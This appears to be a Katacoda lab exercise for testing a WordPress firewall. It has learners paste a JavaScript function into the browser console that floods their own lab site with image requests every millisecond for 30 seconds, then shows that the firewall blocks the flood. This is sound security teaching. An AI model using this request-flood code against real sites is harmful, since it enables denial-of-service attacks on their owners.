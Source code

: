 ## **Enforce the DDoS to test the check the traffic control of the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

<br></br>

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 

![Image](./assets/Inspect.png)

<br></br>

### **Step 3:** 
click the Console button to access the console:

![Image](./assets/Console.png)

<br></br>

### **Step 4:** 
Copy the following command and paste it in the console and click enter:


`
function imgflood() { 
  let URI = '/wp-admin/DDoS.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let DDoSTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(DDoSTimer), 30000); //Stop running in 30 sec
`{{copy}}

![Image](./assets/ConsoleAddCommand.png)

<br></br>

### **Step 4:** 
Refresh the page after the DDoS command run and you can the Firewall block the DDoS attack which sends more than 1000 request successfully:

![Image](./assets/Block.png)
